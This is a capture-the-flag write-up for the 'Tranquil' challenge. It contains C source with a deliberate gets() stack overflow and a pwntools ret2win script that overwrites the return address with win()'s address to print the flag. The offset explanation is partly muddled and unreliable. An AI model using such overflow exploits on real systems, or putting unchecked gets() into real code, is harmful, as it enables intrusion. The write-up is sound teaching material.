 
# Tranquil

Source code:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int win(){
    char flag[128];

    FILE *file = fopen("flag.txt","r");

    if (!file) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }

    fgets(flag, 128, file);

    puts(flag);
}

int vuln(){
    char password[64];

    puts("Enter the secret word: ");

    gets(&password);


    if(strcmp(password, "password123") == 0){
        puts("Logged in! The flag is somewhere else though...");
    } else {
        puts("Login failed!");
    }

    return 0;
}


int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();

    // not so easy for you!
    // win();

    return 0;
}

```

Connect with ```nc shell.actf.co 21830``` or find it on the shell server at ```/problems/2021/tranquil```

* Hint: ```The compiler gives me a warning about gets... I wonder why.```

stacksize for vuln function is 0x40, and that for win is 0x90.. Return address rax is stored into rbp-0x8.
Hence required buffer size is: 0x90-0x40-0x8 = 72 bytes followed by address of win() function. 

# Solution

* Python code:
```
from pwn import *
r = remote('shell.actf.co', 21830)
r.recv()
r.sendline('A'*72 + p32(0x0000000000401196))
r.interactive()
```

# Flag
```actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}```

